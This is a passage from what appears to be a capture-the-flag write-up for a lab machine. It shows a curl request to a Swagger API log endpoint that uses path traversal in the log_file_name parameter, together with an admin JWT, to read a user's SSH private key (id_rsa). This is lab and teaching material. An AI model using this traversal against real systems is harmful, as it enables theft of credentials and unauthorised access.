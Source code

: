 ![Texto alternativo](/assets/instant/Screenshot%202025-02-01%20151837.jpg)

We add `swagger-ui.instant.htb` to `/etc/hosts` and explore the website:

![Texto alternativo](/assets/instant/Screenshot%202025-02-01%20152136.jpg)

This suggests we can access the system via a `curl` request:

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F.ssh%2Fid_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```
